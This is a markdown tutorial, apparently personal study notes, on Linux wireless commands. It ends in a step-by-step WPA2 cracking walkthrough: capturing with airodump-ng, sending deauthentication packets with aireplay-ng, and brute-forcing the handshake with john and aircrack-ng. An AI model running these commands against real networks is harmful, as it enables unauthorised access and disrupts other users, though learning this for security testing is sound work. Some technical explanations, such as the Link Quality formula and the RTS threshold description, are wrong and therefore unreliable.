 # This is a file explaining how wireless networking commands work on Unix systems.



The command `iwconfig` can be used to display information about the status of the wireless adapter (network card) and its connection mode.
This command extracts the information from the file `/proc/net/wireless`.
A typical output looks like this:

```bash
>>>iwconfig

lo        no wireless extensions.

eth0  no wireless extensions.

wlan1  IEEE 802.11  ESSID:"my_AP_name"  
          Mode:Managed  Frequency:5.5 GHz  Access Point: 62:E9:31:69:94:A0   
          Bit Rate=324.2 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=48/70  Signal level=-62 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:46   Missed beacon:0

```

### The following information are provided:

1. **ESSID** - the network name / Domain ID (not an identifier)
    - used to identify which devices are under the same network (they share the same ESSID)
2. **Mode** - under which mode the network card is currently working. The available modes are:
    - Ad-Hoc: a peer-to-peer connection between 2 or more devices
    - Managed: the network card is connected to an Access Point (AP)
    - Master: the network card is acting as an Access Point (AP)
    - Repeater: the network card is acting as a repeater (it receives and forwards packets)
    - Secondary: the network card is acting as a backup to another network card
    - Monitor: the network card is in monitor mode (it can capture all packets in the air)
    - Auto: the network card chooses the best mode automatically
3. **Frequency** - the operating frequency of the network card. Values below 1000 indicate a channel.
 (bandwitdh is split into channels to distrubute AP traffic load) Values above 1000 are frequency in Hz.
4. **Access Point (AP)** - address that specifies the network cell identity (unlike ESSID, its unique for each cell). This value is returned
as an identifier when scanning the networks
5. **Bit Rate** - bitrate for the transmission of all data, including overhead. Specifies the speed of the connection. (in bit/s)
6. **Tx-Power** - trasmit power in dBm (defined as: [ P ] = [ 30 + 10log(W) ] )
7. **Retry limit** - Specifies the number of times a packet will be resent in case the packet is not received at the receiver. There are 2 types of packets:
    - short packets: shorter version of a packet which have reduced payload
    - long packets: usual packets
8. **RTS thr** - adds a [Handshake](Four_Way_Handshake.md) to each packet increasing the overhead.
9. **Fragment thr** - splits the packets into smaller fragments which are sent separately. This increases the overhead but reduces the chance of packet loss.
10. **Power Management** - specifies if the power management is enabled or disabled. If enabled, the network card will go into sleep mode when not in use.
11. **Link Quality** - the quality of the connection. The higher the value, the better the connection. The value is calculated as follows:
    - Link Quality = (Signal level / Noise level) * 100
    - Signal level: the strength of the signal in dBm
    - Noise level: the strength of the noise in dBm
12. **Signal level** - the strength of the signal in dBm. The higher the value, the better the connection.

The command `airmon-ng` can be used to display information about the wireless adapters and their status.
A typical output looks like this:

```bash
>>>airmon-ng

PHY	Interface	Driver		Chipset
phy0	wlan1		ath9k		Qualcomm Atheros AR9485 Wireless Network Adapter (rev 01)
phy1	wlan0		ath9k_htc	Qualcomm Atheros AR9271 802.11n
```

The command `airodump-ng` can be used to display information about the wireless networks in the area.
A typical output looks like this:

```bash
>>>airodump-ng wlan1

CH  1 ][ Elapsed: 1 min ][ 2017-12-10 17:02 ][ fixed channel wlan1: -1
                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                
 62:E9:31:69:94:A0  -62       10        0    0   5  270  WPA2 CCMP   PSK  my_AP_name
```



Start the attack by executing:
```bash
sudo airmon-ng check kill 
```
This will kill all processes (for example of Network Manager) that might interfere with the attack.
To List all available networks use:

```bash
sudo airodump-ng wlan0
```
This will force the mode **Monitor** on the network adapter. To start caputring packets on a specific ESSID use:

```bash
sudo airodump-ng -w output -N <ESSID> wlan0 
```

To increase chances of getting a handshake, deauthenticate a client from the network. Here, there will be 20 deauth packets sent.
Make sure to run this command in a separate terminal window to keep the capture running.
```bash
sudo aireplay-ng -0 20 -e <ESSID> wlan0
```

Open the file containing the [Handshake](Four_Way_Handshake.md) generated by airodump-ng with the command:
```bash
aircrack-ng  *<file_name>.cap -e <ESSID>
```

To crack the password, give aircrack-ng a wordlist containing possible passwords:
```bash
john -incremental -stdout | aircrack-ng output*.cap -w - -e <ESSID>
```

The network card is still in **Monitor** mode. To set it back to **Managed** mode in order to connect to a network, use:
```bash
sudo ip link set wlan0 down
sudo iw wlan0 set type managed
sudo ip link set wlan0 up
```

Apart from that, start the NetworkManager service again:
```bash
sudo service NetworkManager restart
```

To connect to a network from the command line, use:
```bash
sudo nmtui-connect <ESSID>
```




